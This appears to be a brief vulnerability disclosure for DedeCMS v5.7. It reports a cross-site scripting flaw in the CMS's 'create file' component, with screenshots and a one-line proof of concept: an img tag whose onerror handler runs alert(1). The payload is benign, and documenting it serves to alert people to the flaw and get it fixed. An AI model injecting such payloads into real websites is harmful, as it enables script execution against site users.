 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a cross-site scripting (XSS) vulnerability via the component create file

![1](https://github.com/777erp/cms/assets/113673221/5a354d5b-968d-4a05-affc-002581009086)


poc:
```
<img onerror="alert(1)" src="1" />

```

successed

![2](https://github.com/777erp/cms/assets/113673221/5617a52b-5344-440c-9f48-09db7ad8ded5)

